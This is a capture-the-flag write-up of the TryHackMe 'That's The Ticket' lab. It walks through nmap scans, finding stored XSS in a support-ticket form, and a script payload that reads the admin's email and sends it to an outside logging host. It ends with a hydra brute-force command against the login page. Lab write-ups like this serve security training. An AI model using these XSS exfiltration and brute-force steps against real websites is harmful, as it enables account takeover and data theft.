 <h2>Target: 10.10.2.139   That's The Ticket</h2>

<b>Initial Access: </b><br>
nmap -Pn 10.10.2.139 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
The output from nmap shows open ports 22 and 80.

Enumerating these open ports further with nmap: <br>
nmap -Pn 10.10.2.139 --min-rate=5000 -p 22,80 -sC -sV -oN nmap.ticket <br>
The output shows:

![image](https://user-images.githubusercontent.com/93153300/203627094-3ff36a2e-4fa4-42a7-93cc-6061880b8212.png)
Visiting port 80 shows:

![image](https://user-images.githubusercontent.com/93153300/203627118-98d05af3-b08c-4f24-a953-55315e022870.png)
 
The page indicates that we can log support tickets that IT support will look at.  Based on this, if the site is vulnerable to xss then we should be able to steal their cookie.  To log support tickets we need an account.  So click on ‘register’ and create an account.  After registering an account we are taken to a ‘Dashboard’ page:

![image](https://user-images.githubusercontent.com/93153300/203627155-56ce199a-214f-409a-b9af-4bda94aedf9d.png)
 
To test for xss, we will enter in the ‘Message’ field a simple xss script: <script>alert(1)</script><br>
But before we put in the payload, open the source code to this site to see if we need to add anything else to the payload to make it work.  Opening the source code with ‘control u’ shows:  
 
![image](https://user-images.githubusercontent.com/93153300/203627194-1688d6d7-9c3b-4b60-b855-c943e1b955d6.png)

The source code shows that our payload will enter into a ‘textarea’ tag.  Therefore, to make our payload work we will need to close the ‘textarea’ tag at the beginning of the payload.  Our final payload will look like this: </textarea><script>alert(1)</script>

After inputting the payload in the ‘Message’, click on ‘Create Ticket’. <br>
Upon viewing the ticket we created we get an alert:

![image](https://user-images.githubusercontent.com/93153300/203627221-a72e4cf6-6fe9-4082-adef-697eb2be778b.png)
 
The fact that we got an alert shows that the site is vulnerable to xss.  Usually we would try and steal the  user’s cookie that is looking at our tickets.  However, in this case the user has his cookie set to HttpOnly so we can’t extract the cookie.  Instead, capture the user’s email, as the login page shows that the email is used as his username for login:

![image](https://user-images.githubusercontent.com/93153300/203631696-60ba28c8-3ff1-46b7-b17b-6424c4bd9ba0.png)

Before creating and submitting the ticket, it’s important to know that TryHackMe on the main page to this machine says:

![image](https://user-images.githubusercontent.com/93153300/203627252-beb5470f-632a-4a42-9409-ab400e77e2f7.png)
 
So in order to capture the information from the target we need to go to http://10.10.10.100.  Visiting http://10.10.10.100 and clicking on ‘create a session’ takes us to  http://10.10.10.100/19e9c10d65b72f6bafb34a66fd382269.  This directory is a log page.  The page also shows:
 
![image](https://user-images.githubusercontent.com/93153300/203632722-7a397c92-6e5e-4f4e-986c-4512293cb96a.png)

To get the email we will use the following xss payload: <br>
</textarea><script> <br>
var email = document.getElementById("email").innerText; <br>
email = email.replace("@", "8") <br>
email = email.replace(".", "0") <br>
document.location = "http://"+ email +".19e9c10d65b72f6bafb34a66fd382269.log.tryhackme.tech"</script>

In the xss payload we are replacing the ‘@’ character with an ‘8’, and replacing the ‘.’ character with a ‘0’.  We are doing this because the '@' and '.' characters cause errors in the output.   

Next, submit the ticket with the payload we made to get the email.  Looking back at  http://10.10.10.100/19e9c10d65b72f6bafb34a66fd382269 we see that we received logs showing the user's email address: 
 
![image](https://user-images.githubusercontent.com/93153300/203627270-03ac532a-83ce-44ca-ad1d-3e352dd90ef6.png)

Now that we have the username, adminaccount@itsupport.thm, go back to the login page and use hydra to brute force for the adminaccount@itsupport.thm’s password.  To find the proper parameters we need for hydra we will capture the login request in burp suite:
 
![image](https://user-images.githubusercontent.com/93153300/203627292-350c52bf-4874-4a0e-b9c6-3d8a15fb2ebd.png)

A failed login request returns text to the page saying ‘Invalid email / password combination’.

With this information, we are ready to run hydra: <br>
hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt 10.10.2.139 http-post-form "/login:email=^USER^&password=^PASS^:F=Invalid email / password combination"

Hydra found the password ‘123123’.  Log into the account with the email and password.  We can get the flag in the first ticket on the page.  That completes the challenges for this machine.
